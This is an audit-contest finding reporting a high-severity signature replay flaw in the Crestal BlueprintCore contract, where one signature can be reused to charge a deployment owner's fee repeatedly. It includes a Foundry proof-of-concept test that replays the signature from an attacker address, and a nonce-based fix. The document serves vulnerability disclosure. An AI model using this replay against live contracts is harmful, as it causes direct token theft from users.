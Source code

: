 Old Latte Bull

High

# Signature Replay Vulnerability in updateWorkerDeploymentConfigWithSig Leads to financial loss to users

### Summary

The lack of a signature reuse check in `BlueprintCore.sol`  will cause a financial loss for the deployment owner as an attacker will resubmit the same signature to repeatedly deduct fees from the owner’s token balance.

### Root Cause

The function [`updateWorkerDeploymentConfigWithSig()`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L672) passes the signature in the input data, gets the digest from [`getRequestDeploymentDigest()`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L672) , then gets the signer address using `getSignerAddress()`. However, there is no check preventing from re-using the same signature multiple times, and since the signature is included in the transaction data in the input field, and all transaction data is public on the blockchain, a malicious user can re-use the same signature multiple times, triggering repeated calls to [`payWithERC20()`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L650) ( the signature never expires and it will remain visible on the blockchain forever ) .





### Internal Pre-conditions

There needs to be at least one update with signature.

### External Pre-conditions

N/A

### Attack Path

1. `updateWorkerDeploymentConfigWithSig` is called with a valid `signature` , `projectId`, `requestId`, and `updatedBase64Config`, updating the deployment configuration, and paying the updating fee.

2. An attacker observes the transaction on the blockchain, extracts the `signature` from the transaction’s input data, and calls `updateWorkerDeploymentConfigWithSig()` with the same signature, projectId, requestId, and updatedBase64Config, causing the deployment owner to pay the fee again, causing financial damage to him.



### Impact

Direct financial loss to deployment owners :  `fee * the number of times the singature attack was replayed`

### PoC

- Run `forge test --mt test_SignatureReplayAttack -vv`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";
import {ECDSA} from "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract AuditTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    address public workerAddress;
    address public user = address(0x1338);
    address public attacker = address(0x1337);
    bytes32 public projectId;
    bytes32 public requestId;
    string public base64Proposal = "eyJ0ZXN0IjoiZGVwbG95In0="; // {"test":"deploy"}
    string public serverURL = "https://test.crestal.network";
    string public updatedBase64Config = "eyJ1cGRhdGUiOiJjb25maWcifQ=="; // {"update":"config"}

    uint256 constant USER_PRIVATE_KEY = 0x1234567890abcdef;

    event UpdateDeploymentConfig(bytes32 indexed projectId, bytes32 indexed requestID, address workerAddress, string base64Config);

    function setUp() public {
        vm.startPrank(user);
        blueprint = new BlueprintV5();
        blueprint.initialize();
        vm.stopPrank();

        mockToken = new MockERC20();

        vm.startPrank(user);
        blueprint.setFeeCollectionWalletAddress(address(0x7D8));
        blueprint.addPaymentAddress(address(mockToken));
        blueprint.setCreateAgentTokenCost(address(mockToken), 10e18); // 10 tokens = 10000000000000000000
        blueprint.setUpdateCreateAgentTokenCost(address(mockToken), 10e18); // 10 tokens = 10000000000000000000
        vm.stopPrank();

        workerAddress = makeAddr("worker");
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
    }

    function test_SignatureReplayAttack() public {
        address derivedUser = vm.addr(USER_PRIVATE_KEY);
        console.log("\n  Derived user address:", derivedUser);

        // 1 - Setup: User creates an agent to get a valid requestID
        vm.startPrank(derivedUser);
        deal(address(mockToken), derivedUser, 1000000e18);
        mockToken.approve(address(blueprint), 1000000e18);
        console.log("User balance before setup:", mockToken.balanceOf(derivedUser));
        console.log("Fee wallet balance before setup:", mockToken.balanceOf(address(0x7D8)));

        requestId = blueprint.createAgentWithToken(
            projectId, base64Proposal, workerAddress, serverURL, address(mockToken)
        );
        console.log("\n  User balance after setup (should be 1000000e18 - 10e18):", mockToken.balanceOf(derivedUser));
        console.log("Fee wallet balance after setup (should be 10e18):", mockToken.balanceOf(address(0x7D8)));

        // 2 - User signs and submits a valid update
        bytes32 digest = blueprint.getRequestDeploymentDigest(projectId, updatedBase64Config, "app.crestal.network");
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(USER_PRIVATE_KEY, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        address signer = ECDSA.recover(digest, signature);
        console.log("Recovered signer for first call:", signer);
        assertEq(signer, derivedUser, "Signer should match derived user");

        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken), projectId, requestId, updatedBase64Config, signature
        );
        console.log("\n  User balance after first update (should be 1000000e18 - 20e18):", mockToken.balanceOf(derivedUser));
        console.log("Fee wallet balance after first update (should be 20e18):", mockToken.balanceOf(address(0x7D8)));
        vm.stopPrank();

        // 3 - Attacker observes the transaction on the blockchain, and replays the SAME signature
        vm.startPrank(attacker);
        vm.expectEmit(true, true, true, true, address(blueprint));
        emit UpdateDeploymentConfig(projectId, requestId, workerAddress, updatedBase64Config);
        console.log("\n  [+] Attempting replay attack...");
        console.log("Derived user address:", derivedUser);
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken), projectId, requestId, updatedBase64Config, signature
        );
        vm.stopPrank();

        // 4 - Check results
        console.log("User balance after replay (should be 1000000e18 - 30e18):", mockToken.balanceOf(derivedUser));
        console.log("Fee wallet balance after replay (should be 30e18):", mockToken.balanceOf(address(0x7D8)));
    }
}
```

- Expected output :
> ![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/7ca99097-f282-4637-9a9f-3795edb2e97b)


### Mitigation

**Use a nonce** : each user should have a unique nonce that gets included in the signature. Once used, it should be invalidated. If an attacker tries to reuse an old signature, the nonce will have changed, making the signature invalid.